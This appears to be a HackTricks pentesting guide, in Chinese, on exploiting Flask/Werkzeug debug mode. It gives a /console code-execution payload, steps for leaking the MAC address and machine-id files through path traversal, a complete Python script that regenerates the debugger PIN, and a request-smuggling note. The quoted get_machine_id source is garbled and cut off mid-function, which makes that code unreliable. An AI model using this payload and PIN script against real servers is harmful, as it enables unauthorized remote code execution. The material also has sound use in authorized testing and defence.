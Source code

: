 # Werkzeug / Flask Debug

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)\*\* 上关注我们\*\*。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。使用 20 多种工具和功能从侦察到报告运行完整的渗透测试。我们不取代渗透测试人员 - 我们开发定制工具、检测和利用模块，让他们有更多时间深入挖掘、弹出 shell 并享受乐趣。

{% embed url="https://pentest-tools.com/" %}

## 控制台 RCE

如果调试处于活动状态，您可以尝试访问 `/console` 并获取 RCE。

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (114).png>)

在互联网上还有一些漏洞，比如[这个](https://github.com/its-arun/Werkzeug-Debug-RCE)或者在metasploit中的一个。

## Pin Protected - 路径遍历

在某些情况下，**`/console`** 端点将受到 pin 的保护。如果您有一个**文件遍历漏洞**，您可以泄露所有必要的信息来生成该 pin。

### Werkzeug 控制台 PIN 利用

强制应用中的调试错误页面以查看此内容：

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

遇到“控制台已锁定”情况时，尝试访问Werkzeug的调试界面，需要输入PIN码才能解锁控制台。建议通过分析Werkzeug的调试初始化文件(`__init__.py`)中的PIN码生成算法来利用控制台PIN码。可以从[**Werkzeug源代码存储库**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py)中研究PIN码生成机制，但建议通过文件遍历漏洞获取实际服务器代码，以避免潜在的版本差异。

要利用控制台PIN码，需要两组变量，`probably_public_bits`和`private_bits`：

#### **`probably_public_bits`**

* **`username`**：指的是启动Flask会话的用户。
* **`modname`**：通常被指定为`flask.app`。
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**：通常解析为**Flask**。
* **`getattr(mod, '__file__', None)`**：表示Flask目录中`app.py`的完整路径（例如，`/usr/local/lib/python3.5/dist-packages/flask/app.py`）。如果不适用`app.py`，请尝试`app.pyc`。

#### **`private_bits`**

* **`uuid.getnode()`**：获取当前计算机的MAC地址，使用`str(uuid.getnode())`将其转换为十进制格式。
* 要**确定服务器的MAC地址**，必须识别应用程序使用的活动网络接口（例如`ens3`）。在存在不确定性的情况下，\*\*泄露`/proc/net/arp`**以查找设备ID，然后从**`/sys/class/net/<device id>/address`\*\*中提取MAC地址。
* 将十六进制MAC地址转换为十进制可以按以下示例进行：

```python
# 示例MAC地址：56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

* **`get_machine_id()`**：将`/etc/machine-id`或`/proc/sys/kernel/random/boot_id`的数据与`/proc/self/cgroup`最后一个斜杠(`/`)后的第一行连接起来。

<details>

<summary>`get_machine_id()`的代码</summary>

\`\`\`python def get\_machine\_id() -> t.Optional\[t.Union\[str, bytes]]: global \_machine\_id

if \_machine\_id is not None: return \_machine\_id

def \_generate() -> t.Optional\[t.Union\[str, bytes]]: linux = b""

## machine-id is stable across boots, boot\_id is not.

for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot\_id": try: with open(filename, "rb") as f: value = f.readline().strip() except OSError: continue

if value: linux += value break

## Containers share the same machine id, add some cgroup

## information. This is used outside containers too but should be

## relatively stable across boots.

try: with open("/proc/self/cgroup", "rb") as f: linux += f.readline().strip().rpartition(b"/")\[2] except OSError: pass

if linux: return linux

## On OS X, use ioreg to get the computer's serial number.

try:

````
</details>

在整理所有必要数据后，可以执行利用脚本来生成Werkzeug控制台PIN：

在整理所有必要数据后，可以执行利用脚本来生成Werkzeug控制台PIN。该脚本使用组装的`probably_public_bits`和`private_bits`来创建一个哈希，然后经过进一步处理生成最终的PIN。以下是执行此过程的Python代码：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
````

这个脚本通过对连接的位进行哈希处理，添加特定的盐（`cookiesalt` 和 `pinsalt`），并格式化输出来生成 PIN。重要的是要注意，需要准确从目标系统获取 `probably_public_bits` 和 `private_bits` 的实际值，以确保生成的 PIN 与 Werkzeug 控制台预期的 PIN 匹配。

如果你使用的是 Werkzeug 的**旧版本**，尝试将**哈希算法更改为 md5**，而不是 sha1。

### Werkzeug Unicode 字符

正如在[**这个问题**](https://github.com/pallets/werkzeug/issues/2833)中观察到的，Werkzeug 在头部包含 Unicode 字符时不会关闭请求。正如[**这篇文章**](https://mizu.re/post/twisty-python)中所解释的，这可能导致 CL.0 请求走私漏洞。

这是因为，在 Werkzeug 中可以发送一些**Unicode**字符，这会导致服务器**中断**。然而，如果使用带有头部\*\*`Connection: keep-alive`**的 HTTP 连接，则请求的主体不会被读取，连接仍将保持打开状态，因此请求的**主体**将被视为**下一个 HTTP 请求\*\*。

### 参考资料

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<img src="../../.gitbook/assets/image (11).png" alt="" data-size="original">

**即时提供的漏洞评估和渗透测试设置**。从侦察到报告，使用 20 多种工具和功能运行完整的渗透测试。我们不取代渗透测试人员 - 我们开发定制工具、检测和利用模块，让他们有更多时间深入挖掘、弹出 shell 并享受乐趣。

</details>
